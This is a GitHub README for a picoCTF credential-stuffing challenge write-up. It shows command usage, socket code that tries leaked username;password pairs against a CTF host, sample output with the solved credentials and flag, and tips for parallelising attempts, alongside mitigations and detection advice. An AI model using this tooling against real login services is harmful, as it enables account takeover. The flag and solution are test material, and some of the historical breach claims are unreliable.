


# picoCTF: Credential Stuffing

**Category:** Web Exploitation | **Difficulty:** Medium | **Solves:** 2,032+

## Challenge Overview

Credential stuffing is one of the most prevalent real-world attack vectors today. This challenge demonstrates how compromised credentials from one service can be weaponized to gain unauthorized access to other accounts.

### Problem Statement

A major retailer suffered a data breach, exposing thousands of usernames and passwords. Many users reuse the same credentials across multiple services. Your objective is to leverage the leaked credentials to authenticate against a target service and retrieve the flag.

### Learning Objectives

- Understand credential reuse risks
- Implement automated authentication testing
- Handle network I/O with socket programming
- Manage rate limiting and connection timeouts
- Extract and parse flag data from responses

---

## Technical Details

### Attack Vector

The exploit uses **credential stuffing** - systematically attempting authentication with stolen username/password combinations until finding a valid pair.

**Key characteristics:**
- Automated brute-force approach
- No cryptographic components
- Relies on user behavior (password reuse)
- Requires valid credential pairs to succeed

### Why This Attack Works

1. Users reuse credentials across multiple accounts
2. Database breaches expose plaintext or easily-cracked passwords
3. Services often lack proper rate limiting
4. The scale of breaches makes finding valid credentials statistically likely

---

## Repository Structure

```
picoctf-credential-stuffing/
├── src/
│   ├── exploit.py              # Main solution script
│   └── simple_solution.py       # Minimal working example
├── docs/
│   ├── WRITEUP.md              # Detailed solution walkthrough
│   └── SECURITY_NOTES.md        # Security implications
├── screenshots/
│   ├── challenge_description.png
│   └── flag_capture.png
├── README.md                    # This file
├── requirements.txt             # Python dependencies
└── .gitignore

```

---

## Installation & Setup

### Prerequisites

- Python 3.8+
- Network connectivity to target service
- Valid credentials dump file

### Quick Start

```bash
# Clone the repository
git clone https://github.com/6876h9/picoctf-credential-stuffing.git
cd picoctf-credential-stuffing

# Install dependencies (optional, script has no external dependencies)
pip install -r requirements.txt

# Prepare credentials dump
# Place your pico.txt or creds.txt file in the root directory
```

### Running the Exploit

```bash
# Basic usage
python src/exploit.py -c pico.txt -H crystal-peak.picoctf.net -p 62474

# With custom parameters
python src/exploit.py \
  --credentials pico.txt \
  --host crystal-peak.picoctf.net \
  --port 62474 \
  --delay 0.5 \
  --timeout 5

# Quiet mode (less output)
python src/exploit.py -c pico.txt -H crystal-peak.picoctf.net -p 62474 -q
```

### Command-Line Options

| Option | Short | Type | Default | Description |
|--------|-------|------|---------|-------------|
| `--credentials` | `-c` | str | Required | Path to credentials dump file |
| `--host` | `-H` | str | Required | Target hostname/IP |
| `--port` | `-p` | int | Required | Target service port |
| `--timeout` | `-t` | int | 5 | Socket timeout (seconds) |
| `--delay` | `-d` | float | 0.5 | Delay between attempts (seconds) |
| `--quiet` | `-q` | flag | False | Suppress verbose output |

---

## Solution Walkthrough

### Expected Credentials Format

The credentials dump file should follow this format:
```
username1;password1
username2;password2
username3;password3
...
```

### Attack Flow

1. **Load Credentials** - Parse the credentials dump file
2. **Initialize Connection** - Establish socket to target service
3. **Iterate Credentials** - For each username/password pair:
   - Connect to service
   - Send username
   - Receive password prompt
   - Send password
   - Check response for flag
4. **Extract Flag** - Capture and display the flag when found

### Expected Output

```
Loaded 1500 credential pairs
Connecting to crystal-peak.picoctf.net:62474
Starting credential stuffing attack...

[1/1500] Trying evangelo:champ
[2/1500] Trying jaylon:martins
...
[540/1500] Trying ryleigh:wapapapa

============================================================
SUCCESS! Found valid credentials at attempt 540/1500
============================================================
Username: ryleigh
Password: wapapapa

Server Response:
wapapapa
Authenticating...
Welcome ryleigh!
picoCTF{d0nt_r3u5e_cr3d3nt1als_433b090c}
============================================================
```

---

## Challenge Screenshots

### Challenge Description


### Successful Flag Capture


---

## Security Implications

### Real-World Impact

Credential stuffing attacks cause:
- **Account takeovers** across multiple services
- **Data breaches** of personal/financial information
- **Identity theft** and fraud
- **Reputation damage** for affected organizations

### Mitigation Strategies

**For Users:**
- Use unique, strong passwords for each account
- Enable multi-factor authentication (MFA)
- Monitor accounts for suspicious activity
- Use password managers

**For Organizations:**
- Implement aggressive rate limiting
- Enforce password policies (complexity, expiration)
- Deploy MFA/2FA
- Monitor for unusual login patterns
- Use CAPTCHA challenges
- Implement account lockouts after N failed attempts
- Log and alert on suspicious activity
- Breach notification and password reset procedures

### Detection Methods

- Unusual login velocity (multiple attempts from same IP)
- Logins from geographic anomalies
- Failed login spikes
- Successful logins followed by account changes
- API request patterns inconsistent with human behavior

---

## Key Code Sections

### Socket Communication

```python
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.settimeout(self.timeout)
sock.connect((self.host, self.port))

# Read server prompt
sock.recv(1024)

# Send credentials
sock.send((username + "\n").encode())
sock.recv(1024)
sock.send((password + "\n").encode())

# Get response
response = sock.recv(4096).decode(errors="ignore")
```

### Credential Parsing

```python
with open(filepath, encoding="utf-8", errors="ignore") as f:
    for line in f:
        if ";" not in line:
            continue
        username, password = line.strip().split(";", 1)
        self.credentials.append((username, password))
```

---

## Performance Considerations

- **Delay parameter**: Set based on server's tolerance. Too fast = connection errors
- **Timeout value**: Increase if targeting distant servers or slow connections
- **Batch processing**: For large credential sets, consider parallel workers (threading/async)
- **Memory usage**: Loads entire credential list into memory

### Optimization Tips

1. **Parallel execution** - Use `ThreadPoolExecutor` for concurrent attempts
2. **Connection pooling** - Reuse socket connections if service supports it
3. **Early exit** - Stop immediately when flag is found
4. **Batch requests** - Group credentials for more efficient network usage

---

## Troubleshooting

### Connection Refused
```
Connection refused by crystal-peak.picoctf.net:62474
```
**Solution:** Verify host/port are correct. Check service is running and accepting connections.

### Timeout Errors
```
socket.timeout: timed out
```
**Solution:** Increase `--timeout` value or check network connectivity.

### No Valid Credentials Found
- Verify credentials file format (username;password)
- Confirm file is being loaded (`-c` path is correct)
- Check if target service is actually running
- Verify credentials are not already expired

### Permission Denied
```
FileNotFoundError: Credentials file not found
```
**Solution:** Use absolute path or verify file exists in current directory.

---

## Historical Context

Credential stuffing has been responsible for major breaches:
- **Equifax (2017)** - 147M records exposed, leading to massive credential stuffing campaigns
- **Yahoo (2013-2014)** - 3B accounts compromised, years of credential reuse attacks
- **LinkedIn (2012)** - 6.5M passwords leaked, used in subsequent attacks

This challenge teaches defensive awareness while demonstrating the attack methodology.

---

## References & Resources

### OWASP Resources
- [OWASP - Credential Stuffing](https://owasp.org/www-community/attacks/Credential_stuffing)
- [OWASP Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)

### Industry Articles
- CrowdStrike - Credential Stuffing: The New Reality
- Akamai - State of the Internet: Credential Abuse Report
- Gartner - Managing Risk from Leaked Credentials

### Related CTF Challenges
- picoCTF: Fool the Lockout (rate limiting bypass)
- picoCTF: Crack the Gate (credential enumeration)
- picoCTF: Local Authority (client-side bypass)

---

## Contributing

Found improvements? Have a better approach? Issues and pull requests welcome.

---

## Disclaimer

This code is provided for educational purposes only. Use only against systems you own or have explicit permission to test. Unauthorized access to computer systems is illegal.

---

## Author

Challenge writeup & exploitation framework for picoCTF.
GitHub: [@6876h9](https://github.com/6876h9)

---

## License

MIT License - See LICENSE file for details

---

**Last Updated:** May 2026  
**Challenge Status:** Solved ✓  
**Flag:** `picoCTF{d0nt_r3u5e_cr3d3nt1als_433b090c}`
